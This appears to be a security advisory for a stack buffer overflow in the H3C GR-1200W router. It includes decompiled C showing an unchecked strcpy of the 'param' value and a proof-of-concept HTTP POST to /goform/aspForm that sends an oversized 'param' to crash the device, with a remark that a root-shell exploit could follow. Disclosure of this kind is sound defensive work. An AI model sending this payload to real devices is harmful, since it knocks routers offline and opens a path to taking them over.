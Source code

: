 ### Affected product

```
H3C GR-1200W
```
In function sub_4AE06C,the content obtained by the program from the parameter "param" is passed to v2 .Then the v2 is directly copied into the v3 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code 
Execution with carefully crafted overflow data.

### Detail

```c
int __fastcall sub_4AE06C(int a1)
{
  const char *v2; // [sp+1Ch] [+1Ch]
  int v3[8]; // [sp+20h] [+20h] BYREF
  char v4[64]; // [sp+40h] [+40h] BYREF

  v3[0] = 0;
  v3[1] = 0;
  v3[2] = 0;
  v3[3] = 0;
  v3[4] = 0;
  v3[5] = 0;
  v3[6] = 0;
  v3[7] = 0;
  memset(v4, 0, sizeof(v4));
  v2 = (const char *)sub_4E58C8(a1, "param", &unk_4FFD30);
  strcpy((char *)v3, v2);
  CFG_Set(0, 507252736, v3);
  if ( atoi((const char *)v3) )
  {
    if ( atoi((const char *)v3) == 1 )
      CFG_Set(0, 520359938, "192.168.1.251;255.255.255.0;VLAN1;2");
  }
  else
  {
    CFG_Set(0, 520359938, v4);
  }
  return 0;
}
```
### POC

```python
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.11:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=set_tftp_upgrad&param=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;

```




You can see the router crash, and finally we can write an exp to get a root shell
